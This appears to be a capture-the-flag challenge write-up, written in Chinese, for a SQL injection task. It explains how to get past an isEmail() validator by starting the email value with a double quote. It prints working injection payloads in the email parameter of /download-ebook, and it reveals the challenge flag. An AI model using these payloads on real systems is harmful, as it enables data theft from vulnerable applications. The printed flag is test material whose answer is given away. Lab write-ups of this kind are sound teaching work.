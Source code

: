 # Description
LONG DESC

# Difficulty
⭐⭐⭐⭐⭐

# Flag
`mayctf{Y0u_9et_s3n5itive_d4ta!!!}`

# Platform (Optional)
ARCH

# Hint (Optional)
SQL注入

# WriteUp
这题难度偏大，不太适合新人（总得出一两个难题看看有没有大佬不是吗

## 考点
 - 审计代码找到注入点 注入点位于 `/download-ebook`的`email`参数
 - 绕过isEmail()，可以通过查看isEmail的源码或者google找到绕过方式，`""`
 - sql注入，注意这里会输出报错信息

## 绕过isEmail()
当email以`"`开头时，可以包裹任意字符

如`"', 1 and 0);#"@a.aa`，isEmail函数会检测其为合法字符

## payload

`"',1 and substring((select texts from books where id=1),1,99));#"@a.aa`

